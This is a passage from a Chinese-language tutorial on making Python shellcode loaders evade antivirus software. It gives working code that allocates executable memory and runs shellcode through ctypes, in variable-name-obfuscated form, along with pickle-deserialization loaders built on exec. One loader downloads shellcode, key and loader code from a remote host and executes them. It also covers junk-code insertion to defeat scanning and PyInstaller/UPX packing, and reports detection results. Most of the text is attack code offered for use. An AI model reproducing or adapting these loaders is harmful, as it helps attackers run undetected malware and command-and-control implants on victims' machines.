iwBdRfxZeWTuabJmAbEJEbKcVzBLWpVLzHuPQSKQOAQTuvumcVGKfvafFerqchtYWDnrpyKwjdvUchqEWouqEVTbAFokHiSDlqickOiGnVWUofWsZGNHOlyGqnLWuDVBRCNvzZoSXVTeloOpERFvfcNILTpYcTZzrqUQIYGdXDljxwWuIn = 60063 * 97114
wfsrpRxlfVnnz.windll.kernel32.RtlMoveMemory(
    wfsrpRxlfVnnz.c_uint64(WsfUYSwsdQ),
    dSDhkNTP,
    wfsrpRxlfVnnz.c_int(len(UkAEqKTD))
)
NQipEZiIgKIhgLwAvNvSvBdooanvxyrrmXVqKBBQVqjrqKeGWNknQkmexplJmaVjsHZVEeHaZiGhNuMAlVpWeRcDDRJEmSIdVuEzJXwTorMAETFVoOTWkTbOCNYsPcQmuEfLApyYrPDrjysltpEamPkBsjqmMBdubynewMpGsgsuFKJSygDNNsXWISWDsplDGDuKOjOwxNaKcivAqjParlcDxItAeRcbwCJxqjoSAQhEmkhklGytJaXEZRIInNutyLZbQRynryZKLkJyNDnNlJFONQmGliAkGtdZTAwHKbJaTZfhyNHBBpMdFdVqWgrqTsQgIyHZhmsrNBqICbDmSLdgwqbJleNcUsdgVDcfaihpOPuNppoWbymEQbEijfdHDXVuAFbkPRllmATqLeywiIAKFkMnDygZafuGdkzuEGZBDyIgouekTCoFckdxkwRhfYdOBxtUdGgCMlUGggMMIHeVazKlsDYaZsAUCriThwdaHOrdXTcCHSLjTMVGZnwNJwVZQ = 5682 * 52770
jRgpnMTZtoCEy = wfsrpRxlfVnnz.windll.kernel32.CreateThread(
    wfsrpRxlfVnnz.c_int(0),
    wfsrpRxlfVnnz.c_int(0),
    wfsrpRxlfVnnz.c_uint64(WsfUYSwsdQ),
    wfsrpRxlfVnnz.c_int(0),
    wfsrpRxlfVnnz.c_int(0),
    wfsrpRxlfVnnz.pointer(wfsrpRxlfVnnz.c_int(0))
)
eHlEmBCqxPSosEVwhfvCSRZUZBrksBREXtinNkGuDZOIWmonpIIKlHSRMRaeatIymgRyArCAFCxQEgprSycpjgdkCfmAFdSAhuslhuGrtrfBFobsPAIyoASBOnqbXNmGODtMKJblYlOuJSrfGLNzCnHwmzgSleEORlqXeNWhgNoErOSlmAFjcZhuvvLtTymmtwfIKCnMOHbXyJKnIJBgRzkKZzBkxoUkfmshQLaLWUQVdZnJSuKzLYVxqcTNyUsQFKPuZHsYRyaWMeTgwgpcikLwBEbAbTIYxfcJGjFkdjygpgzdDpRaEKXQltdLuxAQuywdxVjBgLHsmEeVEgtsMXEOriHJDFXHUqWyPujBHNTXiIKzhqfRGZHqUCgfWeZqUKplAsJKMsjTkzSmwqoqhHOCzFiOSvZlAWpPKvPylejHcKxICNqtKzNTQOuqhwCnrrrtCDQIilfpgKYTgkKKjHflZJXekaRAwhGKbxGNCDOxeUDjmekiRLCPyCXCPnMpNFxxosMOOIdONXhQJvhmZPUsEOWdDMxAoYesAbDjPrOcZrUSEdsaLYDzZXCmJDqRqNlyjFrcnlAehdvbablqXizTuXvZKIyYmzwtTVqBJUDpBnVFePTkYUfWFvsleQICorhOSbHBCMRFFQSAyiNygknwDUrhLRCqTjSDAbYzybCSIvMyMUwYKTUrOfkMIvDprriHpzQveqptVkUWwnAGNxLdwhnHNbymBgZfjqFpBOaIPcafPySDJHTEmZqfFuWKoaMmnGFCAtEKLLfTvxfwgxHNcZkuCVTQNZJlhOvwGzfkuBdULbXVqRlgIMQOqddYJTcNTWOKRoXdfyydfFcuisoQNmvfnpcWFbIAnbMi = 32374 + 9029
wfsrpRxlfVnnz.windll.kernel32.WaitForSingleObject(wfsrpRxlfVnnz.c_int(jRgpnMTZtoCEy), wfsrpRxlfVnnz.c_int(-1))

```

运行即可上线

### 反序列化

序列化：

```
import pickle
import base64

shellcodeloader = """
import ctypes,base64,time

#这里不能直接存在空字节，反序列化的时候会出错，所以要处理一下
shellcode = base64.b64decode(b'/EiD5PDoyAAAAE....')
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),  
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),  
    ctypes.c_int(0x40) 
    )

buffered = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffered,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0), 
    ctypes.c_uint64(ptr), 
    ctypes.c_int(0), 
    ctypes.c_int(0), 
    ctypes.pointer(ctypes.c_int(0)) 
)

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
"""

class AAA(object):
    def __reduce__(self):
        return (exec, (shellcodeloader,))

seri = pickle.dumps(AAA())
seri_base64 = base64.b64encode(seri)
print(seri_base64)

```

反序列化：

```
import base64,pickle

shellcodeloader = b'gASVwgcAAAAAAACMCGJ1aWx0aW5zlIwEZX............'
pickle.loads(base64.b64decode(shellcodeloader))

```

这里也可以进行远程/本地加载  
将混淆后的加载代码保存到 loader.txt中

```
import ctypes
import base64
import random
import pickle
from sys import version_info
if version_info >= (3,0):
    from urllib.request import urlopen
else:
    from urllib2 import urlopen


def decrypt(code, key):
    # 设置随机数
    random.seed(key)
    # 异或解密
    xor_code = code.split('.')
    res_code = ''
    for i in xor_code:
        res_code = res_code + chr(int(i) ^ random.randint(0, 255))
    # 三重解码
    if version_info >= (3,0):
        shellcode = bytes.fromhex(res_code)
    else:
        shellcode = res_code.decode('hex')
    shellcode = base64.b16decode(shellcode)
    shellcode = base64.b32decode(shellcode)
    return shellcode


class Runcode(object):
    def __init__(self, sc, ld):
        global shellcode
        global loader
        loader = ld
        shellcode = sc

    def __reduce__(self):
        return (exec, (loader,))


def get_data(url_shellcode, url_key, url_loader):
    """远程获取shellcode"""
    # 远程加载shellcode, key
    key = urlopen(url_key).read().decode()
    shellcode = urlopen(url_shellcode).read().decode()
    loader = urlopen(url_loader).read().decode()
    loader = base64.b64decode(loader)
    return shellcode, key, loader


if __name__ == "__main__":
    url_shellcode = "http://ip:8000/shellcode.txt"
    url_key = "http://ip:8000/key.txt"
    url_loader = "http://ip:8000/loader.txt"
    # 远程加载
    shellcode, key, loader = get_data(url_shellcode, url_key, url_loader)
    # 解码
    shellcode = decrypt(shellcode, key)
    # 加载shellcode
    res = pickle.dumps(Runcode(shellcode, loader))
    pickle.loads(res)

```

创建Runcode类的一个实例，将解密后的shellcode和loader传递给它。  
使用pickle模块序列化这个Runcode实例，然后再反序列化它。由于Runcode.**reduce**的存在，这会导致exec(loader)被执行，进而执行shellcode。

# 加花指令

主要是用来扰乱动态扫描的，向程序shellcode或特征代码区域增添垃圾指令。加花的原理就是通过添加花指令（一些垃圾加密数据，无意义的条件判断等等）干扰杀毒软件正常的检测

```
w_code1 ="""
import random
def partition(test_arr, low, high):
   i = (low - 1)  
   pivot = test_arr[high]
   for j in range(low, high):
       if test_arr[j] <= pivot:
           i = i + 1
           test_arr[i], test_arr[j] = test_arr[j], test_arr[i]
   test_arr[i + 1], test_arr[high] = test_arr[high], test_arr[i + 1]
   return i + 1
def quick_sort(test_arr, low, high):
   if low < high:
       pi = partition(test_arr, low, high)
       quick_sort(test_arr, low, pi - 1)
       quick_sort(test_arr, pi + 1, high)
test_arr= []
for i in range(59999):
   test_arr.append(random.random())
n= len(test_arr)
quick_sort(test_arr,0, n - 1)
"""

w_code2 ="""
import re
re.search('www','www.runoob.com').span()
re.search('com','www.runoob.com').span()
line= "Cats are smarter than dogs ok in shakdhaksdas";
searchObj= re.search(r'(.*) are (.*?) .*', line, re.M | re.I)
def double(matched):
   value = int(matched.group('value'))
   return str(value * 2)
s= 'A23G4HFD567'
re.sub('(?P<value>\d+)',double, s)
"""

w_code3 ="""
import base64
st= 'wo gan jue wo ma shang jiu yao bei defender gan diao a ba a bachonogchong chongcong!'.encode()
res= base64.b64encode(st)
aaa= res.decode()
res= base64.b64decode(res)
bbb= res.decode()
"""

```

# 混淆代码

<https://pyob.oxyry.com/>



# 打包exe

由于python生成exe文件的内存太大了，这里可以结合upx（压缩壳）来使用  
<https://github.com/upx/upx>

```
pyinstaller -F -w .\shellcode.py --upx-dir D:\upx.exe --clean

```

还可以缩小代码

```
pip install python-minifier
pyminify .\bypass.py --output bypass-mini.py

```

免杀效果测试：

  
火绒还是比较好过的  
云沙箱还是过不了，因为它把py2exe、pyinstaller生成的任何exe包都当作了恶意文件

# 总结

虽然python加载shellcode的免杀方式有很多，但是生成的exe文件比较大，还是推荐用C#、go这种语言来写免杀

# 参考文章

<https://forum.butian.net/share/1690>  
<https://blog.csdn.net/jammny/article/details/130321649>
